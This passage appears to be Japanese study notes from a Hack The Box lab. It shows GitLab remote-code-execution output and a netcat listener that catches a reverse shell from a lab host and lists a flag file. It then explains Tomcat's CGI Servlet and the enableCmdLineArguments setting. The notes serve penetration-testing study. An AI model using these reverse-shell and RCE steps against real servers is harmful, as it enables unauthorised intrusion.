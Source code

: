 ```shell-session
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```

```shell-session
snowyowl644@htb[/htb]$ nc -lnvp 8443
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ id
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ ls
VERSION
config.toml
flag_gitlab.txt
sockets
```


# Tomcat CGI
CGI Servlet
CGI : Common Gateway Interface 
- CGI Servlet は Apache2 のような Web サーバー上で動作するプログラムであり、CGI 仕様に準拠した外部アプリケーションの実行をサポート
- Apache Tomcat における重要なコンポーネントであり、Tomcat JVM の外部で実行されるアプリケーションと Web サーバーとの通信を可能
- 外部アプリケーションは通常、Perl、Python、Bash などで書かれた CGI スクリプト
- CGI Servlet は、Web ブラウザからのリクエストを受け取り、それを CGI スクリプトに渡して処理
- Web サーバーとデータベースなどの外部情報資源との間のミドルウェアのような存在

CGI スクリプトの利点と欠点

| **利点**                          | **欠点**                                |
| ------------------------------- | ------------------------------------- |
| 動的な Web コンテンツの生成が簡単で効果的。        | 各リクエストごとにプログラムをメモリにロードするためオーバーヘッドが発生。 |
| 標準入力を読み込み、標準出力に書き込める任意の言語を使用可能。 | ページ間のリクエストでメモリにデータをキャッシュするのが難しい。      |
| 既存のコードを再利用でき、新たなコードの記述を避けられる。   | サーバーのパフォーマンスを低下させ、多くの処理時間を消費する。       |

**enableCmdLineArguments の役割**
- Apache Tomcat の `CGI Servlet` における `enableCmdLineArguments` 設定は、クエリ文字列からコマンドライン引数を生成するかどうかを制御する
- この設定が true の場合、CGI Servlet はクエリ文字列を解析し、それを CGI スクリプトへ引数として渡す
- この機能により、環境変数や標準入力を使用せずにスクリプトへパラメータを渡せるため、CGI スクリプトの記述が柔軟かつ簡単になる

**CGIの例**
書店のカタログから本を検索する CGI スクリプトがあるとする
- 「タイトルによる検索」と「著者による検索」の2つのアクションをサポートしている
- タイトルによる検索の URL
	- `http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby`
	- action パラメータ : title に設定されており、スクリプトはタイトルで検索を行った
	- query パラメータ : 検索語句「the great gatsby」を指定している
- 著者による検索の URL
	- `http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald`
	- action パラメータ :  author になっており、著者名による検索を行う
	- queryパラメータ : 「fitzgerald」が指定されている
- コマンドライン引数を使用することで、スクリプトはユーザー入力に応じて異なる検索アクションを柔軟に切り替えることができる
